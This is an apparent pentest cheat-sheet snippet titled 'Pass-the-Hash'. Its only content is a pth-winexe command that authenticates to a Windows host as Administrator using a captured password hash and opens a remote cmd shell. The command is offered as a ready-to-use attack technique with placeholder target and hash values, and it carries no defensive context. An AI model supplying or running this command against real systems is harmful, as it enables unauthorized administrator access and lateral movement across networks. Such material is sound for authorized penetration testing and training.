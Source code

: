 Pass-the-Hash

# Pass-the-Hash

```
pth-winexe -U Administrator%<Administrator:Hash> //x.x.x.x cmd
```